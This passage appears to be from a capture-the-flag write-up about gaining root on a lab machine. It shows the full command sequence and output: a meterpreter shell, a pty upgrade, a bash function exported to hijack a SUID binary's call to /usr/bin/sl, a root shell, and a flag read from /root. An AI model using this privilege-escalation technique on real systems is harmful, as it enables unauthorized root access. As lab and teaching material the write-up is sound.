 The binary <code>nightmare</code> appears to execute <code>/user/bin/sl</code> as the root user (SUID is on the execute bit).

### Bash Function Manipulation

Function manipulation was leveraged to execute <code>/bin/sh</code> by the nightmare binary, providing a root shell thus fully compromising the system.

<div class="note warning">
  <h5>Nightmare Process</h5>
  <p>After execution of <code>/usr/bin/nightmare</code> it was necessary to kill the <code>nightmare</code> process using <code>kill -2</code> via another shell in order for the root shell to spawn correctly. To search for the process use <code>ps aux | grep nightmare</code> and use <code>kill -2</code> command to kill the pid.</p>
</div>


{% highlight bash %}
meterpreter > shell
Process 11 created.
Channel 14 created.


python -c 'import pty;pty.spawn("/bin/bash")'
bash-4.2$

bash-4.2$

bash-4.2$ function /usr/bin/sl() { /bin/sh; }
function /usr/bin/sl() { /bin/sh; }
bash-4.2$ export -f /usr/bin/sl
export -f /usr/bin/sl
bash-4.2$ /usr/bin/nightmare
/usr/bin/nightmare
Error opening terminal: unknown.
[+] Again [y/n]? sh-4.2# id
id
uid=0(root) gid=0(root) groups=0(root),91(tomcat) context=system_u:system_r:tomcat_t:s0
sh-4.2# cat /root/flag.txt
cat /root/flag.txt
Well done!

Here's your flag: 3eb030c6ab099b0a355712fe38d59ffb
{% endhighlight %}

### Root Flag
